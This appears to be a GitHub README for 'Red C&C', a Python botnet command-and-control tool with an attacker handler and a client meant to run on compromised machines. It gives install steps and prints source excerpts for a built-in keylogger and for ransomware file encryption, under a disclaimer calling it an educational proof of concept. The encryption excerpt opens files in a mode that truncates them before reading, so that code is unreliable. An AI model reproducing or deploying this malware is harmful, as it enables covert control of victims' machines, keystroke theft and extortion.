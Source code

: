 ```
				██████╗ ███████╗██████╗  	██████╗   ██╗    ██████╗
				██╔══██╗██╔════╝██╔══██╗	██╔════╝   ██║   ██╔════╝
				██████╔╝█████╗  ██║  ██║	██║     ████████╗██║     
				██╔══██╗██╔══╝  ██║  ██║	██║     ██╔═██╔═╝██║     
				██║  ██║███████╗██████╔╝	╚██████╗██████║  ╚██████╗
				╚═╝  ╚═╝╚══════╝╚═════╝  	╚═════╝╚═════╝   ╚═════╝
```                                            
Red C&C is a program focused on commanding and controlling a botnet. Red C&C consists of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the target machines. Red C&C will allow an attacker to send terminal commands to an entire botnet through a single interface using a single command. The purpose of Red C&C is to simplify the communication between an attacker and the machines that they have compromised. Red C&C uses two of Python's built-in modules for most of the heavy lifting: the **Socket** module for establishing a client-server communication between the attacker and the target machines, and the **Threading** module for dividing the two main functions of the program into two seperate threads. 

#### **Note**: Red C&C was created as a PoC and should not be used for malicious intent but for educational purposes.

### Installing Red C&C
```
# Install Git if its not installed.
apt install git

# Clone this repository to a folder of your choosing.
git clone https://github.com/binexisHATT/Red-C-C.git

# Change directory into the programs folder.
cd Red-C-C/

# Running the handler.
./ss.py

----------------------------------
Or you can create a symbolic link:

path = The path to the folder you cloned Red C&C in.
ln path/Red-C-C/scripts/net/ss.py /bin/redcc

With this symbolic link, typing "redcc" will execute the handler anywhere in the command line.

# Running the handler with symbolic link.
redcc
```
### Remember to change the IP address in both ss.py and cc.py to your IP address!

# Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```

### Watch our project video demo here -->
